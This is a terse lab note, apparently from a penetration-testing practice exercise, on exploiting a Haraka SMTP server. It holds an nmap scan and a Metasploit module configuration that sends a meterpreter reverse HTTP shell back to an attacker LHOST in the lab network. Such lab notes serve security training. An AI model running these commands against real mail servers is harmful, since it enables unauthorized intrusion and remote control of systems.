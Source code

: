 
(simple mail transfer protocol)

map test -sS -sV -O IP
search type:exploit name:smtp 
we get port 25 haraka email smtp server

use exploit/linux/smtp/haraka  
set SRVPORT 9898  
set email_to root@attackdefense.test  (email depends on webserver name)
set payload linux/x64/meterpreter_reverse_http  
set rhost 192.150.137.3  
set LHOST 192.150.137.2  
exploit